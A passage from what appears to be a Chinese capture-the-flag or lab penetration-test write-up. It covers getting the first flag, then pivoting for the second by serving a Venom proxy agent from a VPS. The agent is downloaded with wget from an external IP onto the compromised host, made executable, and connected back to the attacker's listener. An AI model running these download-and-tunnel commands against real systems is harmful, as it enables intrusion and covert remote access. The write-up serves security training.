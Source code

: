 在用户目录下 cat flag01

[![](assets/1706513339-bed439cb5f76d76c76889c4a46f1406f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231611-2b750a70-bdf0-1.png)

拿到第一个 flag

## flag2

代理出来，这里我们尝试了 frp，但是我得 frp 不可以联动 kali 得

​ 这里我们使 venom

```plain
python2 -m SimpleHTTPServer 7000
```

```plain
wget http://43.143.194.53:7000/agent
```

```plain
chmod 777 agent
```

vps

```plain
./admin -lport 3333
```

内网机

```plain
./agent -rhost 43.143.194.53 -rport 3333
```

[![](assets/1706513339-991e057ec335c6882db4389bfe6932c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231619-30351b04-bdf0-1.png)
